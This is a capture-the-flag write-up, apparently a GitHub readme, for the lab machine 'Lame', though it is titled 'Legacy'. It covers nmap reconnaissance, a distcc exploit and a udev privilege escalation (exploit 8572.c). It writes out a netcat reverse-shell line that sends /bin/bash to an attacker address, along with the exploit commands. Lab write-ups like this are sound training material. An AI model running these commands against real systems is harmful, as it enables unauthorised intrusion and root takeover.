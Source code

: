 Legacy without Metasploit:

![Lame](https://user-images.githubusercontent.com/55708909/91424966-24d6d500-e878-11ea-8989-bca46c0cc916.png)



Starting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.3

![Lame_nmap](https://user-images.githubusercontent.com/55708909/91425616-01f8f080-e879-11ea-9f03-d54ed3ca7e24.png)

FTP port doesn't have any info to give so i quickly switch to nmap vulnerability scripts as per my own methodology and found one vector to attack

![Lame_vuln](https://user-images.githubusercontent.com/55708909/91427248-3c638d00-e87b-11ea-994b-455883a3dc41.png)

distcc is kind of compilier and nmap has a script to exploit this vulnerability

![Lame_shell](https://user-images.githubusercontent.com/55708909/91429683-610c3480-e87c-11ea-959c-1d02e7e51b5b.png)

For Priviledge Escalation we are going to use 2009-1185

searchsploit -m 8572.c

It require process id of udevd : ps -aux |grep devd

As per this exploit the file run in tmp directory will be running with root priviledges.

run

#/bin/bash

nc -nv 10.10.10.10 4444 -e /bin/bash

transfer the file run in tmp directory and run these commands 

./8572 2688 (as per my pc udevd PID. It can be differet for yours)

and we get reverse connection on netcat at port 4444

![Lame_flag](https://user-images.githubusercontent.com/55708909/91435348-d0395700-e883-11ea-8208-97d55095c9a1.png)










